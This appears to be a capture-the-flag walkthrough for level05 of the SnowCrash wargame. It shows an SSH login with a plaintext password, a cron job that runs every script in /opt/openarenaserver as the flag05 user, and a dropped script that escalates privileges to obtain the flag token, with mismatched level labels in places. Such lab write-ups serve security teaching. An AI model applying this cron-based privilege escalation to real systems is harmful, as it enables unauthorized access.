 # Level04

Login as `level05`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level05
level03@192.168.1.64's password: ne2searoevaevoem4ov4ar8ap
You have a new mail.
```

Once logged, a message tells us we got a new mail. So we check `/var/$USER`

```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

```bash
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:~$ cat level05
>>> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

It seems to be a chrontab executed by flag05 every 2 minutes.\
Let's check what **openarenaserver** does:

```bash
level05@SnowCrash:/opt/openarenaserver$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script executes `as flag05` everything in `/opt/openarenaserver/` and deletes it right after.\
So let's create a bash script and leave it in that folder in order to execute `getflag` as flag05.

```bash
level05@SnowCrash:~$ vim /opt/openarenaserver/getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag05
```

Then I use chmod on my file to set the execution rights:

```bash
level05@SnowCrash:~$ chmod 777 /opt/openarenaserver/getflag.sh
```

Lets wait around 2 minutes (because crontab executes every 2 min) and cat the out file `/tmp/flag05`:

```bash
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
